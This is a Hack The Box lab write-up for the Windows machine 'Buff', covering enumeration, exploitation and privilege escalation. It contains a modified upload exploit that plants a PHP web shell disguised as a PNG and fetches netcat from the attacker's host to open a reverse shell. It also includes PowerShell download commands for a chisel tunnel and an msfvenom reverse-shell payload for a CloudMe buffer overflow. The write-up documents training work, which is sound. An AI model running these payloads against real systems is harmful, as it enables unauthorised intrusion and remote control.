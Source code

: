 /*---
permalink: /portfolio/htb_windows/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Buff
---*/

# Windows Hack The Box Writeup for Buff

## Enumeration

As always, we start of with an nmap:

```bash
sudo nmap 10.10.10.198 -p 7680,8080 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.198 -p-` to get the ports 7680 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`.

With the result:

```bash
# Nmap 7.80 scan initiated Tue Sep  1 11:06:01 2020 as: nmap -p 7680,8080 -sC -sV -oN nmap.txt 10.10.10.198
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.091s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 11:07:12 2020 -- 1 IP address (1 host up) scanned in 71.03 seconds
```

I don't know what `pando-pub` is, so let's take a look at the website first. It appears to be Gym-management software.

![gym](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/gym.png)

Alright, let's take a look around.

![contacts](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/contact.png)

A software name and version, perfect! So, we are dealing with `Gym Management Software 1.0` here. That does not sound secure, let's see if anyone already found an exploit:

```bash
searchsploit Gym Management
```

![searchsploit](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/searchsploit.png)

It appears a problem with filtering in a picture upload, in `upload.php`. If we put some image magic bytes in front of a php-script, it will accept it and we can run the php-script. Running the exploit found on exploit-db gives us this weird pseudo-shell, which sends a new request for every command. This is not usefull, so we have to edit it.

![pseudo](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/psuedo.png)

So, I modified it to this:

```python
import requests, sys, urllib, re

if __name__ == "__main__":
        SERVER_URL = 'http://10.10.10.198:8080/'
        UPLOAD_DIR = 'upload.php?id=shel'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    '\x89\x50\x4e\x47\x0d\x0a\x1a \n <?php echo shell_exec("powerShell (New-Object System.Net.WebClient).DownloadFile(\'http://10.10.14.16/nc.exe\' \'nc.exe\'); 2>&1; ./nc.exe -e cmd.exe 10.10.14.16 8090"); ?>',
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
        }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        print r1.text

```

This payload sends a file upload to the victim with a php-script. This script executes a `powershell` command, to download netcat (`nc.exe`) and execute it with `cmd.exe` to my kali. This generates a reverse shell and allows me to do much more.

## Exploitation

In order to execute the script, we navigate to `http://10.10.10.198:8080/upload/shel.php`, this executes the uploaded php-script and allows us to get the shell. We do need to have a python-webserver running so the victim can download netcat and we need to have a netcat listener to catch it.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell_win.png)

And there it is, a reverse shell!
This also gives us access to the `user.txt` file, located in `C:\Users\shaun\Desktop\user.txt`


## Privelege escaltion

So, how do we go from here? Well, after looking around shaun's home folder, I found `CloudMe_1112.exe` in his Downloads folder. This means that `Cloud Me` is installed, with version number `1112`, or `1_11_2`. This version is vulnerable to a buffer overflow.

![overflow](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/overflow.png)

But, this is a python-based exploit, so we cannot run this on the victim. To run this exploit, we need a reverse proxy, so we can use the locally open port. I used (`chisel`)[https://github.com/jpillora/chisel] for the proxy.

```bash
#kali
./chisel server --port 9002 --reverse

#victim
powerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2/chisel.exe','C:\users\shaun\downloads\chisel.exe');
.\chisel.exe client 10.10.14.2:9002 R:8888:127.0.0.1:8888
```

Okay, now we have our reverse connection we can generate and run the exploit. We use the first exploit (`48389.py`), but we still need a payload for the victim to execute, let's generate that with `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=8091 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Still generates a byte-code payload for a reverse shell back to me. And after executing this we catch a shell on our listener!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root_win.png)

Done!
